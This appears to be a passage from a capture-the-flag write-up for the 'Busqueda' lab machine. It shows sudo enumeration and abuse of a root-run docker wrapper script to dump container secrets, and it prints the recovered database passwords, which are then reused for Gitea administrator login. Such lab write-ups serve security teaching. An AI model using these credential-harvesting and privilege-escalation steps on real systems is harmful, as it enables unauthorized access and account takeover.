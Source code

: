```json
    },
    "merge_logs": true,
    "vizion": true,
    "autorestart": true,
    "watch": true,
    "instance_var": "NODE_APP_INSTANCE",
    "pmx": true,
    "automation": true,
    "treekill": true,
    "username": "root",
    "uid": 1000,
    "gid": 1000,
    "windowsHide": true,
    "kill_retry_time": 100
  }
]
```
=> Is this a service file from a service that gets executed by root??

Show sudo privs:
```bash
sudo -l
# User svc may run the following commands on busqueda:
#     (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

The script is some kind of docker wrapper:
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
# gitea
# mysql_db

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
# "GITEA__database__DB_TYPE=mysql"
# "GITEA__database__USER=gitea",
# "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh"

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq
# "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
# "MYSQL_USER=gitea",
# "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
# "MYSQL_DATABASE=gitea",
```
=> We found some credentials/passwords:
```
yuiu1hoiu4i5ho1uh
jI86kGUuj87guWr3RyF
```
=> No luck with SSH as root

The creds work on the gitea webapp:
```bash
http://gitea.searcher.htb/
# administrator:yuiu1hoiu4i5ho1uh
```
